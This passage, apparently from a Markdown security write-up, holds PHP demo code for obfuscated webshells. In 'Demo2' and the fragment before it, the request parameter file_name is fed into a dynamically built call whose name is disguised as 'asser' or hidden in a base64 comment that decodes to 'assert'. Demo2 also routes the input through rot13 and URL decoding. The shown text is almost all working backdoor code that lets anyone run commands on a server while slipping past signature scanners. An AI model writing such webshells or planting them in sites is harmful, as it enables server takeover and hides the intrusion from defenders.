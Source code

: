 ```php
			return $bbgu;
		}
		public function post() {
			return $_REQUEST['file_name'];
		}
	}
	$test = new demo("asser");
	h3rmesk()($test->h3rmesk1t(), $test->post());
?>
```

<div align=center><img src="./images/4.png"></div>

 - `Demo2`

```php
<?php
	error_reporting(0);
    highlight_file(__FILE__);
	/**
	* abcdYXNzZXJ0Cg==osais990;
	*/
    class User { }
    class demo {
    	public $base;
    	public function __construct($base='') {   
	        $this->base = $base;
	    }
		public function artart() {
			return base64_decode($this->base);
		}
    }
    class bemo extends demo {
		public $code;
		function __construct($code='') {
			$this->code = $code;
		}
		function brtbrt() {
			$mm = urldecode(str_rot13(trim('   '.$_REQUEST['file_name'].'  ')));
			h3rmesk()(trim($this->code), $mm);
		}
    }
```